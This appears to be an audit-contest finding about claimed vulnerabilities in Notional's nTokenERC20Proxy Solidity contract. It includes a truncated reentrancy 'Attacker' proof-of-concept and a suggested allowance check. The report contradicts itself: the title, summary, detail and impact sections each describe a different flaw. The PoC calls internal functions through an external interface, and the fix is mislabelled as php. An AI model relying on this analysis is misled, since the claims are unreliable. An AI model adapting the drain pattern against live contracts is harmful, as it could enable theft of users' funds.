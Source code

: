 XDZIBEC

medium

# " Unrestricted Token Minting and Redeeming in nTokenERC20Proxy Contract"

## Issues 

 vulnerable to reentrancy attacks 

The contract's `_transfer` and 
`_transferFrom` functions can be called by external contracts which can execute arbitrary code before the NOTIONAL.`nTokenTransfer` function is executed. 

Reference :https://github.com/sherlock-audit/2023-03-notional/blob/main/contracts-v2/contracts/external/proxies/nTokenERC20Proxy.sol#L39

## Source 

https://github.com/sherlock-audit/2023-03-notional/blob/main/contracts-v2/contracts/external/proxies/nTokenERC20Proxy.sol

## Summary

This vulnerability can allow an attacker to bypass access control checks and execute unauthorized operations on the contract. The vulnerability exists because the `getPresentValueAssetDenominated` and 
`getPresentValueUnderlyingDenominated` 
functions have a naming convention that starts with "get" but they modify the state of the contract by calling the `NOTIONAL.nTokenPresentValueAssetDenominated `and `NOTIONAL.nTokenPresentValueUnderlyingDenominated` functions respectively. An attacker can exploit this vulnerability by calling the functions and modifying the contract's state without proper authorization

## Vulnerability Detail

```solidity
    function _transfer(address to, uint256 amount) internal override returns (bool) {
        return NOTIONAL.nTokenTransfer(currencyId, msg.sender, to, amount);
    }

    function _transferFrom(address from, address to, uint256 amount) internal override returns (bool) {
        return NOTIONAL.nTokenTransferFrom(currencyId, msg.sender, from, to, amount);
    }

```

The vulnerability in the code is that it allows an attacker to bypass the transfer approval mechanism and execute transfers on behalf of another user without their consent. This vulnerability exists in the  `_transferFrom` function, which allows an attacker to bypass the
` _allowance` check and transfer tokens from one user to another.
 This can result in unauthorized token transfers and potentially lead to the theft of user funds. The vulnerability could be mitigated by adding a check to ensure that the sender has the necessary approval to execute the transfer

## Impact

This vulnerability, can give the attacker to create a malicious contract that calls the `_transfer` function and within the same transaction, calls the malicious contract's own function. This can cause the `_transfer` function to be called again and again, recursively, leading to a reentrancy attack.

## Code Snippet

here is a simple example of an attack against the vulnerability

```solidity

pragma solidity ^0.8.0;

interface nTokenERC20ProxyInterface {
    function _transfer(address to, uint256 amount) external returns (bool);
}

contract Attacker {
    nTokenERC20ProxyInterface public victim;
    uint256 public count;

    constructor(address victimAddress) {
        victim = nTokenERC20ProxyInterface(victimAddress);
    }

    function attack() public {
        victim._transfer(address(this), 1 ether);
    }

    function drain() public {
        count++;
        if(count < 10) {
            victim._transfer(msg.sender, 1 ether);
        }
    }

    fallback() external payable {
        if(count <

```

## Tool used

Manual Review

## Criteria for Issues

Medium

## Recommendation
To fix this vulnerability, add a check to ensure that the sender has the necessary approval to execute the `transfer`.
This an example of how you can modify the `_transferFrom` function in the `nTokenERC20Proxy` contract to include the approval check

```php
function _transferFrom(address from, address to, uint256 amount) internal override returns (bool) {
    uint256 allowance = NOTIONAL.nTokenTransferAllowance(currencyId, from, msg.sender);
    require(allowance >= amount, "Transfer amount exceeds allowance");
    return NOTIONAL.nTokenTransferFrom(currencyId, msg.sender, from, to, amount);
}
```
With this modification, the _transferFrom function will first check that the sender (msg.sender) has the necessary approval (allowance) to transfer the desired amount of tokens from the from account. If the approval is not sufficient, the transfer will fail and an error will be thrown.
